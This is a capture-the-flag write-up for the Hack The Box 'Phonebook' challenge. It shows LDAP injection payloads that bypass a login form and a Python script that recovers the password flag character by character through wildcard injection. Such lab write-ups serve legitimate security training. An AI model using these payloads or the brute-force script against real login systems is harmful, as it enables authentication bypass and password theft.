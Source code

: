# Phonebook

When we see the login form on the website, it might be command injection, `SQL injection`, `LDAP injection`. 

We can see that this need us to login with workstation username, it might be `LDAP injection`.
<p align="center">
<img src="./images/login.png">
</p>
This is an example of `LDAP injection` payload. We can check for vulnerabilities.

```
user=*)(&
password=*)(&
--> (&(user=*)(&)(password=*)(&)) 

```
<p align="center">
<img src="./images/inject.png">
</p>
Our response showed successful, and a search box appeared when we clicked the button.

Then we type a character in the search box, and it returns some user phonebook information. I tried `flag`, `HTB`, it doesn't find any results.
> If you search for `space`, you will see such information
```
Kyle Reese	reese@skynet.com	555-1234567
Ellery Hun	ehun1z@reddit.com	317-959-9562
Madelaine Lush	mlush5@deliciousdays.com	636-918-1006
Currey Conti	cconti0@auda.org.au	529-673-3935
Chaim Smoth	csmothf@sbwire.com	895-974-4117
Eldin Jelf	ejelf1u@google.pl	363-426-3563
Ganny Marti	gmartih@diigo.com	796-793-6925
Jobey Olley	jolleyx@abc.net.au	607-345-0290
Katalin Wilde	kwildep@plala.or.jp	414-839-2681
Stinky Trood	stroodz@foxnews.com	933-416-1003
Tab Zoren	tzorenq@mit.edu	360-678-3613
Ursula Beer	ubeer2f@live.com	794-396-6882
Bryan Arman	barman1x@exblog.jp	640-255-8092
Babette Cunio	bcunio2h@macromedia.com	709-363-0223
Berget Novis	bnovis1j@constantcontact.com	780-278-2572
Ced Engley	cengleyi@springer.com	230-780-1999
Caryn Germon	cgermon4@wiley.com	967-789-6335
Devina Alcide	dalcideu@arizona.edu	828-947-3484
Dionne Lammas	dlammask@washingtonpost.com	824-561-5676
Emmalynn Burnup	eburnupd@networkadvertising.org	148-856-7052
Fredericka Hanks	fhanks1s@census.gov	762-337-5667
Hannah Inder	hinder2a@canalblog.com	315-711-6454
Jay Sharma	jsharmay@t.co	893-382-5236
Lilyan Crepel	lcrepel6@ucoz.com	851-980-1038
...
```
Then we try to find user `Reese`, but the information doesn't look like flag.

output : `Kyle Reese	reese@skynet.com	555-1234567`

Then we change our `payload` to check if the password is the flag.

```
user=Reese
password=HTB*)(&
--> (&(user=Reese)(password=HTB*)(& 
```
This indicates that the payload logs into the web successfully with the payload!

> `The password is the flag!`

## Brute force

We need to get the flag through `brute force`. To do this, write a `Python script`.

```python
import requests
import string

URL = "~"

asciiLower = list(string.ascii_lowercase)

asciiUppercase = list(string.ascii_uppercase)

passwordList = asciiLower + asciiUppercase + [str(i) for i in range(10)] + ["_", "}"]

payload = "HTB{"
password = ""

while True:
    for ch in passwordList:
        password = payload + ch + "*)(&"

        data = {"username": "Reese", "password": password}
        re = requests.post(URL, data=data)

        if "success" in re.text:
            payload += ch
            print(payload)

```
The flag is like this 👌👉  `HTB{d1rectory_******_**_****}`
